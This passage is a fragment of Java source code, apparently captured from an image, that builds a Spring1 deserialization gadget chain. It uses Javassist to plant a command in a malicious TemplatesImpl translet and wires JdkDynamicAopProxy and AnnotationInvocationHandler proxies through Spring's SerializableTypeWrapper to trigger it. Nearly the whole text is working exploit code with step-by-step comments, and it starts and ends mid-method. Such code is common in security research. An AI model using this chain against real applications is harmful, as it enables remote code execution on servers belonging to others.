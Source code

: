 ```java
        CtClass ctClass = classPool.makeClass("Spring1Exploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // Instantiate the class and set properties
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
        return templatesImpl;
    }

    public static void main(String[] args) throws Exception {

        // Instantiate AdvisedSupport
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl());

        // Use AnnotationInvocationHandler to dynamic proxy
        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = aClass.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // The invoke method of JdkDynamicAopProxy triggers the getTarget of TargetSource to return tmpl
        // And method.invoke(return value, args) will be called
        // At this time, the return value is changed to TemplatesImpl by us using dynamic proxy.
        // Next, the method needs to be newTransformer() to trigger the call chain
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> aopConstructor = clazz.getDeclaredConstructors()[0];
        aopConstructor.setAccessible(true);

        // Instantiate JdkDynamicAopProxy using AdvisedSupport
        InvocationHandler aopProxy = (InvocationHandler) aopConstructor.newInstance(advisedSupport);

        // JdkDynamicAopProxy itself is an InvocationHandler
        // Use it to proxy a class, so that the invoke method of JdkDynamicAopProxy will be triggered when this class is called.
        // We use it to proxy a class that is both Type and Templates(TemplatesImpl parent class)
        // In this way, this proxy class has two methods at the same time, which can be forced to be converted into the return value of TypeProvider.getType(), and can also find the newTransformer method in it.
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, aopProxy);

        // Next, proxie the getType() method of TypeProvider, making it return the typeTemplateProxy proxy class we created
        HashMap<String, Object> hashMap = new HashMap<>();
        hashMap.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, hashMap);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // Use the getType method of the AnnotationInvocationHandler to dynamically proxy the TypeProvider to return typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);

```